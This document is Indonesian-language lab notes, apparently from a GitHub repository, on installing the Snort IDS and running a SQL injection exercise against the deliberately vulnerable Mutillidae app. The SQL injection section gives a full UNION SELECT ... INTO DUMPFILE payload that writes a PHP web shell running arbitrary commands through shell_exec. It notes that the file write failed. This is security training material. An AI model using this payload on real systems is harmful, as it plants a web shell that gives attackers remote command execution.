# Instalasi Snort


### Instalasi Snort

- Download daq dan snort
```
wget https://www.snort.org/downloads/snort/daq-2.0.6.tar.gz
wget https://www.snort.org/downloads/snort/snort-2.9.11.tar.gz
```
- Install daq
```
tar xvfz daq-2.0.6.tar.gz
cd daq-2.0.6
./configure && make && sudo make install
```
- Install snort
```
tar xvfz snort-2.9.11.tar.gz
cd snort-2.9.11
./configure --enable-sourcefire && make && sudo make install
```

### SQL Injection dengan Output File execute_command.php
- Pada halaman User Info, lakukan inspect element pada form Name dan ubah nilai size menjadi 100.
```
"size=100"`
```
![](Mutillidae%20lesson%208/2.png)
- Isi form Name dengan string berikut
```
' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' -- 
```
- Klik View Account Details
![](Mutillidae%20lesson%2010/1.png)
- Hasil error tidak bisa menulis file.
![](Mutillidae%20lesson%2010/2.png)

